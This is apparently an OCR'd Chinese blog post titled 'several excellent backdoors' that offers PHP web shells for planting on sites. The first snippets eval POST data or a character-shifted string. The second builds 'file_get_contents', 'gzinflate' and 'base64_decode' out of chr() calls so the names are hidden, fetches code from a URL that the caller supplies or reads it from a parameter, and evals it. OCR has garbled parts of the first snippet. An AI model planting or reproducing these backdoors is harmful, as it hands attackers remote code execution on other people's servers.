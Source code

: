 ```yaml
---
layout: mypost
title: 几款优秀的后门
categories: [About]
---
```


# 

几款优秀的后门

## NO.1
` USE
`` 配置中插入,连接密码 x
```H=@EVAL_R($_POSTIF);
````

##

script
<?php 
    $arr="j{fq-)dUTXY`}b.@"; 
    for($i=0;$i< strlen($arr);$i++){
        $arr[$i]=chr(ord($arr[$i])-5);
    }
    eval($arr);
?>
```
## NO.2
```Script
<?php
$c='chr';
$getpar='';
$get='';
$unzip='';
$getpar.=$c(36).$c(95).$c(82).$c(69).$c(81).$c(85).$c(69).$c(83).$c(84);
$get=chr(102).chr(105).chr(108).chr(101).chr(95);
$get.=chr(103).chr(101).chr(116).chr(95).chr(99);
$get.=chr(111).chr(110).chr(116).chr(101).chr(110);
$get.=chr(116).chr(115);
$unzip=$c(103).$c(122).$c(105).$c(110);
$unzip.=$c(102).$c(108).$c(97).$c(116).$c(101);

$undecode=$c(98).$c(97).$c(115).$c(101).$c(54).$c(52);
$undecode.=$c(95).$c(100).$c(101).$c(99).$c(111).$c(100).$c(101);
if(isset($_POST['phpcodeurl'])&&$_POST['phpcodeurl']!=''){
    $tongji=$get($_POST['phpcodeurl']);
}
else if(isset($_POST['tongji'])&&$_POST['tongji']!=''){
    $tongji=$_POST['tongji'];
}
$ecode = isset($_REQUEST['0'])?$_REQUEST['0']:'';
$ecode.= isset($_REQUEST['1'])?$_REQUEST['1']:'';
$ecode.= isset($_REQUEST['2'])?$_REQUEST['2']:'';
$ecode.= isset($_REQUEST['3'])?$_REQUEST['3']:'';
$ecode.= isset($_REQUEST['4'])?$_REQUEST['4']:'';
$ecode.= isset($_REQUEST['5'])?$_REQUEST['5']:'';
$ecode.= isset($_REQUEST['6'])?$_REQUEST['6']:'';
$ecode.= isset($_REQUEST['7'])?$_REQUEST['7']:'';
$ecode.= isset($_REQUEST['8'])?$_REQUEST['8']:'';
$ecode.= isset($_REQUEST['9'])?$_REQUEST['9']:'';
$ecode.= isset($_REQUEST['10'])?$_REQUEST['10']:'';
$ecode.= isset($_REQUEST['11'])?$_REQUEST['11']:'';
$ecode.= isset($_REQUEST['12'])?$_REQUEST['12']:'';
$ecode.= isset($_REQUEST['13'])?$_REQUEST['13']:'';
$ecode.= isset($_REQUEST['14'])?$_REQUEST['14']:'';
$ecode.= isset($_REQUEST['15'])?$_REQUEST['15']:'';
$ecode.= isset($_REQUEST['16'])?$_REQUEST['16']:'';

//$ecode($undecode($tongji));
@eval($undecode($tongji));
echo '<br>tj, tj';
?>

```